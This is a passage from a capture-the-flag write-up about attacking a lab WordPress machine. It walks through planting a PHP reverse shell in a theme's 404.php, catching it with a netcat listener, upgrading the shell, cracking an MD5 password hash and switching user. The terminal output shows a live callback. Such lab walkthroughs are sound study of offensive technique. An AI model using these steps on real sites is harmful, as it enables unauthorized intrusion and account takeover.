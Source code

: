 Now that we got access to wordpress account, i googled 'wordpress reverse shell' and found this useful [article](https://www.hackingarticles.in/wordpress-reverse-shell/), it explains how we can get a reverse shell by injecting a malicious php code as a wordpress theme, for that i used pentestmonkey php reverse shell that you can find [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), you have to change the ip in the code to your machine's ip, and then set up a listener on your machine using the following command: `nc -nlvp 1234`.

When you finish the setup, visit the page we have edited: `http://{target_IP}/wp-content/themes/twentyfifteen/404.php`

And just like that, we got a reverse shell! In order to have a functional shell though we can issue the following:

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.117.187] 51538
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
15:21:18 up  5:21,  0 users,  load average: 0.00, 0.01, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 1234

$ stty raw -echo;fg                                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

daemon@linux:/$
```

# **Privilege Escalation**

## robot

Navigating to /home/robot we find out 2nd key, but we can read it, there is also a file called password.raw-md5 and we can read it, i cracked it using [crackstation](https://crackstation.net/) and got robot's password.
Now let's change the user using the command `su robot` and supplying the password we cracked.

```terminal
daemon@linux:/home/robot$ su robot
Password:
robot@linux:~$ whoami
robot
```
